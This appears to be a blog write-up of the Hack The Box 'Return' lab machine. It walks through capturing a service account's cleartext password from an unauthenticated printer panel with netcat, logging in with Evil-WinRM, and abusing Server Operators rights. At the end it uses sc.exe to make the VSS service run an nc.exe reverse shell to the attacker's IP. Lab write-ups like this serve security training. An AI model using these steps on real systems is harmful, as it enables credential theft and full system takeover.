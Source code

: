 ```yaml
---
layout: single
title: Hack The Box - Return
permalink: /htb-return/
excerpt: "Return is an easy machine from the HacktheBox platform. This machine has the webserver which is the Admin Printers Panel without authentication need it to view it and can easily grab the credentials. It also has a user that belongs to the Server Operators group that we can abuse and gain the system shell."
classes: wide
header:
  teaser: "/assets/images/htb/return/return.png"
  teaser_home_page: true  
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
tags:
  - file-misconfiguration
  - printer
  - group-server_operators
  - sc.exe
  - evil-winrm
---
```


![1](/assets/images/htb/return/return.png)

### <font color="#9bffc8">Nmap</font>

First, let's start scanning the IP address with the Nmap.

#### result

```sql
# Nmap 7.92 scan initiated Sat Apr  2 02:24:05 2022 as: nmap -sC -sV -oN nmap/return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-01 18:42:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-01T18:42:56
|_  start_date: N/A
|_clock-skew: 18m34s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  2 02:24:25 2022 -- 1 IP address (1 host up) scanned in 20.29 seconds
```

That's a bunch of open ports. Turns out, this machine is an Active Directory Domain.

### <font color="#9bffc8">Http</font>

The `port 80` is got my attention because the Nmap scan result says, the title of the webpage is `HTB Printer Admin Panel`. Let's take a look at it, which is running on `Microsoft IIS`.

![1](/assets/images/htb/return/printer-home.png)

It is a simple webpage and a lot of the buttons on the navigation bar don't work at all. However, when I clicked on the `Settings` button. I've been greeted by this!

![1](/assets/images/htb/return/printer-settings.png)

So, I tried to change the password first and play around with it but nothing has happens. Then, I google around and found this [HackTricks - AD information in printers](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers). It highlights some blogs too: 
- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)
- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)

### <font color="#9bffc8">NetCat</font>

First, let's start the `nc` and listen to `port 389`. Then, in the `settings` page, change the `Server Address` into your IP address which is tun0, and click `Update`.

![1](/assets/images/htb/return/printer-tun0.png)

![1](/assets/images/htb/return/nc-clear-pass.png)

In the image above. The `nc` successfully grabs the password and it's in form of `clear-text`.

### <font color="#9bffc8">Evil-WinRM</font>

Now, I have the password of the `svc-printer` user. Let's try to connect to this machine by using `Evil-WinRM`.

![1](/assets/images/htb/return/evil-winrm-svc-printer.png)

YES! I'm in. This user also can read the `user flag` located in this directory `C:\Users\svc-printer\Desktop`.

### <font color="#9bffc8">Server Operators</font>

The first thing I love to do is run this command `whoami /all`. This command is gonna display user, group, and privileges information for the user who is currently logged on. 

![1](/assets/images/htb/return/whoami-all.png)

Here's the result. The `BUILTIN\Server Operators` caught my eyes. Why? because this group can create and delete network shared resources, start and stop services, back up and restore files. Need more information on this group. Here's the link [Microsoft - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

So, I start googling around and found this [cube0x0 - Poc'ing Beyond Domain Admin - Part 1](https://cube0x0.github.io/Pocing-Beyond-DA/). This article shows us how to stop and start services. 

### <font color="#9bffc8">nc.exe</font>

First, I'm gonna start the `python http server` in my attack machine in the directory called `www` and it contains the copy of the `nc.exe` file. Then, `download` it into the victim machine which is a Windows machine.

![1](/assets/images/htb/return/nc-exe-download.png)

### <font color="#9bffc8">System Shell</font>

So, In this [article](https://cube0x0.github.io/Pocing-Beyond-DA/) is straight forward and I'm gonna change the service configuration. In this case, I'm gonna change the `VSS config` to run the `nc.exe` but first, I'm gonna start the `nc listener` in my attack machine on my desired port. Anyways, the command is down below:

```powershell
# Here's the command
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.14 9901"
sc.exe stop VSS
sc.exe start VSS
```

![1](/assets/images/htb/return/system-shell.png)

TA DAAA!!! now I'm an `authority\system`.